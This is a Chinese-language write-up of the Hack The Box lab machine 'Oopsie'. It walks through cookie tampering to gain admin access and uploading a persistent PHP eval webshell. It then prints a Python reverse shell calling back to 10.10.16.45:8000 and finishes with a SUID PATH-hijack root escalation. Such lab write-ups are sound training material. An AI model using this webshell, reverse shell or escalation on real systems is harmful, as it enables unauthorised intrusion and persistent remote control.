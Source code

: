 nmap扫描结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141459039.png)

---

题目提示要进行登录操作,发现存在路径`cdn-cgi/login`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141522417.png)

[Login as guest](http://10.129.21.248/cdn-cgi/login/admin.php)跳转到`cdn-cgi/login/admin.php`

点击account,注意到`?content=accounts&id=2`,id参数可能存在注入??

发现对于不同的id,回显的结果不同,用intruder进行爆破

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141644629.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141643534.png)

[文件上传](http://10.129.21.248/cdn-cgi/login/admin.php?content=uploads)

提示要super admin权限

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141802996.png)

注意到在`Cookie`中定义了`user`和`role`,网站可能根据cookie来判断用户身份,根据爆破得到的id和name替换cookie中的值,成功冒充super admin

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141805958.png)

上传webshell即可,但发现疑似存在定时清理程序,因此上传不死马

```php
<?php 
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = 'shell.php';
$code = '<?php @eval($_POST[a]);?>';
while (1){
    file_put_contents($file,$code);
    usleep(1000);
}
?>
```

在`/var/www/html/cdn-cgi/login/admin.php`中

```php
if($_GET["content"]==="clients"&&$_GET["orgId"]!="")
{
	$stmt=$conn->prepare("select name,email from clients where id=?");
	$stmt->bind_param('i',$_GET["orgId"]);
	$stmt->execute();
	$stmt=$stmt->get_result();
	$stmt=$stmt->fetch_assoc();
	$name=$stmt["name"];
	$email=$stmt["email"];
	echo '<table><tr><th>Client ID</th><th>Name</th><th>Email</th></tr><tr><td>'.$_GET["orgId"].'</td><td>'.$name.'</td><td>'.$email.'</td></tr></table';
}
```

在`/var/www/html/cdn-cgi/login/db.php`中

```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

可能可以作为`robert`用户的密码

在`/var/www/html/cdn-cgi/login/index.php`中

```php
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
{
	$cookie_name = "user";
	$cookie_value = "34322";
	setcookie($cookie_name, $cookie_value, time() + (86400 * 30), "/");
	setcookie('role','admin', time() + (86400 * 30), "/");
	header('Location: /cdn-cgi/login/admin.php');
}
```

存在python3,利用其进行反弹shell


```python
import socket
import subprocess
import os
ip="10.10.16.45"
port=8000
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((ip,port))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

将反弹回来的shell转换为交互式的shell

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141956768.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141957154.png)

可以通过ssh直接连接

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201141725083.png)

题目提示存在`SUID`

`find / -user root -perm -4000 -print 2>/dev/null`

```bash
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
robert@oopsie:~$ find / -user root -perm -4000 -print 2>/dev/null
/snap/core/11420/bin/mount
...
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/bugtracker
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/sudo
```

发现`/usr/bin/bugtracker`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142000440.png)

该程序根据输入执行`cat /root/reports/xxx`,注意到这里的`cat`可能为相对路径,因此可能可以利用`SUID`进行提权操作

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142011724.png)

确实是直接使用了相对路径的`cat`,因此可以进行提权操作

改变当前目录的`PATH`,使`robert`执行`bugtracker`时优先使用当前的`PATH`变量

假设将`PATH`设置为`/tmp`目录,而在`/tmp`目录下存在一个名为`cat`的可执行文件,文件内容为`/bin/bash`,在执行`bugtracker`会以`root`权限执行`/bin/bash`由此获得`root shell`

`export PATH=/tmp:$PATH`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142017367.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142018460.png)
